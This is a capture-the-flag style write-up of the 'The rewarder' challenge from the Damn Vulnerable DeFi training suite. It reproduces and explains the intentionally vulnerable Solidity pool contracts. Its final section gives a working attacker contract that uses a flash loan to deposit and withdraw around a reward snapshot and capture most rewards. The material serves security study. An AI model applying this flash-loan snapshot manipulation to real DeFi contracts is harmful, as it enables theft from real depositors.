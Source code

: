 #+AUTHOR: Francesco Cannarozzo
* The rewarder
  ../contracts/the-rewarder
** Statement
   Every 5 days, depositing DVT onto the pool rewards tokens.
   Without any token, we ought to get most of the rewards for ourselves in the upcoming round.
** Files
*** FlashLoanerPool.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT

     pragma solidity ^0.8.0;

     import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
     import "@openzeppelin/contracts/utils/Address.sol";
     import "../DamnValuableToken.sol";

     /**
     * @title FlashLoanerPool
     * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)

     * @dev A simple pool to get flash loans of DVT
     */
     contract FlashLoanerPool is ReentrancyGuard {

     using Address for address;

    DamnValuableToken public immutable liquidityToken;

    constructor(address liquidityTokenAddress) {
        liquidityToken = DamnValuableToken(liquidityTokenAddress);
    }

    function flashLoan(uint256 amount) external nonReentrant {
        uint256 balanceBefore = liquidityToken.balanceOf(address(this));
        require(amount <= balanceBefore, "Not enough token balance");

        require(msg.sender.isContract(), "Borrower must be a deployed contract");
        
        liquidityToken.transfer(msg.sender, amount);

        msg.sender.functionCall(
            abi.encodeWithSignature(
                "receiveFlashLoan(uint256)",
                amount
            )
        );

        require(liquidityToken.balanceOf(address(this)) >= balanceBefore, "Flash loan not paid back");
    }
}
     #+END_SRC
**** Breakdown
***** flashLoan
      performs flashLoan functionality, only accepting contracts as *msg.sender*, and calling its
      *receiveFlashLoan(uint256)* function.
*** TheRewarderPool.sol
**** Code
     #+BEGIN_SRC solidity
     // SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./RewardToken.sol";
import "../DamnValuableToken.sol";
import "./AccountingToken.sol";

/**
 * @title TheRewarderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)

 */
contract TheRewarderPool {

    // Minimum duration of each round of rewards in seconds
    uint256 private constant REWARDS_ROUND_MIN_DURATION = 5 days;

    uint256 public lastSnapshotIdForRewards;
    uint256 public lastRecordedSnapshotTimestamp;

    mapping(address => uint256) public lastRewardTimestamps;

    // Token deposited into the pool by users
    DamnValuableToken public immutable liquidityToken;

    // Token used for internal accounting and snapshots
    // Pegged 1:1 with the liquidity token
    AccountingToken public accToken;
    
    // Token in which rewards are issued
    RewardToken public immutable rewardToken;

    // Track number of rounds
    uint256 public roundNumber;

    constructor(address tokenAddress) {
        // Assuming all three tokens have 18 decimals
        liquidityToken = DamnValuableToken(tokenAddress);
        accToken = new AccountingToken();
        rewardToken = new RewardToken();

        _recordSnapshot();
    }

    /**
     * @notice sender must have approved `amountToDeposit` liquidity tokens in advance
     */
    function deposit(uint256 amountToDeposit) external {
        require(amountToDeposit > 0, "Must deposit tokens");
        
        accToken.mint(msg.sender, amountToDeposit);
        distributeRewards();

        require(
            liquidityToken.transferFrom(msg.sender, address(this), amountToDeposit)
        );
    }

    function withdraw(uint256 amountToWithdraw) external {
        accToken.burn(msg.sender, amountToWithdraw);
        require(liquidityToken.transfer(msg.sender, amountToWithdraw));
    }

    function distributeRewards() public returns (uint256) {
        uint256 rewards = 0;

        if(isNewRewardsRound()) {
            _recordSnapshot();
        }        
        
        uint256 totalDeposits = accToken.totalSupplyAt(lastSnapshotIdForRewards);
        uint256 amountDeposited = accToken.balanceOfAt(msg.sender, lastSnapshotIdForRewards);

        if (amountDeposited > 0 && totalDeposits > 0) {
            rewards = (amountDeposited * 100 * 10 ** 18) / totalDeposits;

            if(rewards > 0 && !_hasRetrievedReward(msg.sender)) {
                rewardToken.mint(msg.sender, rewards);
                lastRewardTimestamps[msg.sender] = block.timestamp;
            }
        }

        return rewards;     
    }

    function _recordSnapshot() private {
        lastSnapshotIdForRewards = accToken.snapshot();
        lastRecordedSnapshotTimestamp = block.timestamp;
        roundNumber++;
    }

    function _hasRetrievedReward(address account) private view returns (bool) {
        return (
            lastRewardTimestamps[account] >= lastRecordedSnapshotTimestamp &&
            lastRewardTimestamps[account] <= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION
        );
    }

    function isNewRewardsRound() public view returns (bool) {
        return block.timestamp >= lastRecordedSnapshotTimestamp + REWARDS_ROUND_MIN_DURATION;
    }
}

     #+END_SRC
**** Breakdown
***** State
      The contract holds a constant uint *REWARDS_MIN_DURATION* set to five days,
      representing the interval between one rewards round and the other.
      uints *lastSnapshotIdForRewards* and *lastRecordedSnapshotTimestamp* represent the
      state of the snapshot being used for the upcoming rewards round.

      Reward round history is stored in a *mapping( address => uint256)*, mapping rewarded
      addressess onto reward timestamps. references to the three tokens used (DVT, liquidityToken, rewardToken) are then mantained,
      along with one more uint tracking the number of rounds elapsed since deployment.
***** Constructor
      construction takes the address of a *dDamnValuebleToken* instance to use as liquidity token,
      then creates new AccountingToken and RewardToken instances. it then uses its internal method
      to record a snapshot.
***** Deposit
      Allows user to deposit *amount* liquidity tokens. *amount* accounting tokens are then issued
      to *msg.sender*, and *distributeRewards()* is called.
      finally, the transfer of *amount* DVT from *msg.sender* to *this* is required to go through.
***** Withdraw
      uint *amountToWithDraw* accounting tokens will be burned from *msg.sender*, finally
      requiring the corresponding transfer of liquidity tokens from *this* to *msg.sender* to go
      through. Essentially simmetrical with the *deposit()* method, were it not for the call to  
      *distributeRewards()* by the former.
***** DistributeRewards
      assigns uint *rewards* to 0.
      if *isNewRewardsRound()* returns true, a new snapshot is recorded through the contract's 
      corresponding private function.
      Then, uint *totalDeposit* is assigned as the accounting token's  total supply at the last
      valid snapshot, while *amountDeposited* is assigned as the balance of msg.sender's at the
      same snapshot.

      It's then time to decide: first, the amount of *rewards* earned by the user,
      as the fraction of their *amountDeposited* over *totalDeposits*.

      Finally, if *rewards* are positive and *msg.sender* hasn't retrieved their rewards for
      the current round. *reward* amount rewardTokens are freshly minted as they're awarded:
      *lastRewardTimetsamps[msg.sender]* is then set to current block's.
      
***** _recordSnapshot
      Private function. takes a snapshot of accounting token, assigns it to *lastSnapshotIdforRewards*
      finally, *lastRecordedSnapshotTimestamp* is set as current block's, and *roundNumber* is incremented.
***** _hasRetrievedReward
      Private function.
      for given account address, returns whether reward ahas been claimed for current round.
      For that to be the case, *lastRewardTimestamps[account]* is required to be greater (that is, later)
      than *lastRecordedSnapshotTimeStamp* _AND_ lesser (that is, earlier) than the very same
      last recorded snapshot timestamp, summed to the minimum round duration.
***** isNewRewardsRounds
      public view returning true if indeed the current block's timestamp is greater than
      *lastRecordedSnapshotTimestamp* plus the round duration.
      
** Exploit
   Time, if anything, is central to solving this challenge.

   Something we can easily notice is how, for reward purposes, the contract trusts snapshots.
   Since, however, such snapshot is *only* taken once per round as *distributeRewards()* is called,
   an attacker could, after waiting for the beginning of a new round,
   simply flashLoan enough tokens, and before *flashLoan()* returns deposit all tokens to *rewarderPool*.
   immediately withdrawing them, and be assigned a great proportion of reward tokens.
   Finally, flashLoaned Tokens can be returned.
   #+BEGIN_SRC solidity
   pragma solidity ^0.8.0;

import "../../the-rewarder/RewardToken.sol";
import "../../DamnValuableToken.sol";
import "../../the-rewarder/AccountingToken.sol";
import "../../the-rewarder/FlashLoanerPool.sol";
import "../../the-rewarder/TheRewarderPool.sol";
import "@openzeppelin/contracts/utils/Address.sol";




contract TheRewarderAttacker {

    using Address for address;

    DamnValuableToken token;
    FlashLoanerPool flashLoanerPool;
    TheRewarderPool rewarderPool;

    constructor(DamnValuableToken _token, FlashLoanerPool _pool1, TheRewarderPool _pool2){
        token = _token;
        flashLoanerPool = _pool1;
        rewarderPool = _pool2;
    }

    function attack() public {
        flashLoanerPool.flashLoan(1000000 ether);
    }

    function receiveFlashLoan(uint256 amount) external {
        token.approve(address(rewarderPool), amount);
        rewarderPool.deposit(amount);
        rewarderPool.withdraw(amount);
        token.transfer(address(flashLoanerPool), amount);
    }

}
   #+END_SRC

